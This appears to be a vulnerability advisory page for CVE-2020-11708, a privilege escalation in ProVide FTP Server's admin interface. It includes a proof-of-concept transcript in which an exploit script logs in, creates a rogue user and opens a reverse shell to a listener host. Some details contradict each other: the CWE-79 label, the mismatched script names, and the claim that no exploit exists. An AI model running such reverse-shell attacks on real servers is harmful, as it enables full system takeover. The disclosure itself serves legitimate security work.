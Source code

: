 ```yaml
---
layout: default
parent: ProVide FTP Server for Windows
nav_order: 8
title: CVE-2020-11708 - Privilege Escalation via EXECUTE()
---
```

# Web Admin Interface - Privilege Escalation via EXECUTE()

## Summary

The application allows the FTP server admin to execute programs upon certain events are triggered. This behaviour could be exploited by an attacker, to achieve Vertical Privilege Escalation, leading to full takeover of the underlying hosting server (From Web Application Admin to Windows NT\System user).

## VulDB-Like Summary

A vulnerability has been found in the Admin Web Interface of ProVide FTP Server (formerly zFTP) for Windows up to v13.1. It has been declared as critical. Affected by this vulnerability is an unknown part of the file /ajax/SetUserInfo. The manipulation of the parameter **messages** with an unknown input value leads to a privilege escalation vulnerability. The CWE definition for the vulnerability is CWE-79. As an impact it is known to affect confidentiality, integrity and availability. An attacker might be able to execute arbitrary code on the underlying hosting server, leading to full server takeover.

The weakness was disclosed 04/06/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). It is possible to read the advisory at github.com. This vulnerability is known as CVE-2020-11708. The attack can be launched remotely. A single authentication is needed for exploitation. Technical details of the vulnerability are known, but there is no available exploit.

## Proof-of-Concept

The [privesc.py](https://github.com/belong2yourself/vulnerabilities/blob/master/docs/ProVide/Web%20Admin%20Interface%20-%20Privilege%20Escalation%20via%20EXECUTE()/privesc.py) script has been provided to reproduce the issue.

```shell
root@kali:~# python3 privesc_exec.py -t 192.168.226.140 -u Admin -p Passw0rd! -H 192.168.226.129 -P 4444 
[+] Logging in
[+] Creating Rogue User
[+] Enabling FTP
[+] Setting up listener
[+] Triggering reverse shell
[+] Check your shell
```

A video is available as well, to easily understand what the impact could be:

<div class="embed-container">
  <iframe
      style="display: block;margin-left: auto;margin-right: auto;"
      width="800"
      height="600"
      src="https://drive.google.com/file/d/1lLESY_6B_u39TTjvmJTmS7_JspPBws1D/preview"
      frameborder="0"
      allow="autoplay"
      allowfullscreen="">
  </iframe>
</div>

## Remediation

Currently, no official fix is available for this issue.

## References

* [https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A5-Broken_Access_Control](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A5-Broken_Access_Control)
* [https://www.acunetix.com/blog/web-security-zone/what-is-privilege-escalation/](https://www.acunetix.com/blog/web-security-zone/what-is-privilege-escalation/)
* [https://cwe.mitre.org/data/definitions/269.html](https://cwe.mitre.org/data/definitions/269.html)